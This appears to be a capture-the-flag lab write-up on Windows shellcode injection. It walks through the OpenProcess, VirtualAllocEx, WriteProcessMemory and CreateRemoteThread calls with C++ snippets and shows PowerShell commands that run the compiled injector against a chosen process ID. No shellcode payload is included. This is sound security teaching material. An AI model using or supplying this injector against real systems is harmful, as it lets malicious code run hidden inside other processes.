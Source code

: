 # Shellcode injection

Shellcode injection is the most basic form of process injection.

## Overview

| ![Shell injection](../../_static/images/shell-injection.png) |
|:--:|
| How Windows API calls interact with process memory. |

1. Open a target process with all access rights ([OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)).
2. Allocate target process memory for the shellcode ([VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)).
3. Write shellcode to allocated memory in the target process ([WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)).
4. Execute the shellcode using a remote thread ([CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)).

## C++ Code

Open the target process supplied via the command-line:

```text
processHandle = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);
```

Allocate memory to the byte size of the shellcode:

```text
remoteBuffer = VirtualAllocEx(
	processHandle, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

Use the allocated memory region to write our shellcode to memory regions:

```text
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```

Execute the shellcode residing in memory:

```text
remoteThread = CreateRemoteThread(
	processHandle, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
);
```

Compile to create a basic process injector (`shellcode-injector.exe`).

## Injection

On the target machine, start up Powershell, and identify a `PID` of a process running as `THM-Attacker` to target 
(using Details tab of TaskManager). I chose the PID of the Powershell.

```text
PS C:\Users\THM-Attacker> cd .\Desktop\
PS C:\Users\THM-Attacker\Desktop> cd .\Injectors\
PS C:\Users\THM-Attacker\Desktop\Injectors> .\shellcode-injector.exe PID
```

Flag!

## Resources

* [MITRE: process injection](https://attack.mitre.org/techniques/T1055)
